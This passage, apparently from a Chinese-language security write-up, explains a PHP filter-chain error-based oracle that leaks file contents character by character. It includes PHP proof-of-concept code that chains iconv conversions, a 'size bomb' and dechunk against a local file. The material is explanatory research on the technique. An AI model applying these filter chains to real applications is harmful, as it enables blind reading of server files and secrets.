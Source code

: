 [![](assets/1698893103-33056ed5a87805b64518e04b827566f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231029230951-3550c18a-766d-1.png)

现在就可以联合已经发现的方法来访问文件中的任何字符了。

### 无关的多字节序列

如果您使用过`UCS-4` 编码，会知道 `UCS-4` 只能编码大小是 4 的精确倍数的字符串，但由于文件的大小也计算好了，所以 oracle 还是会触发，尽管系统会产生编码警告，下面的例子阐述了这个原理：

```bash
<?php

$size_bomb = "";
for ($i = 1; $i <= 20; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $swap_bits = "convert.iconv.UTF16.UTF16|convert.iconv.UCS-4LE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UCS-4LE.UCS-4|";
    $filter = "php://filter/$swap_bits$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the fifth character is "."edcba"[$i-1]."\n";
}
```
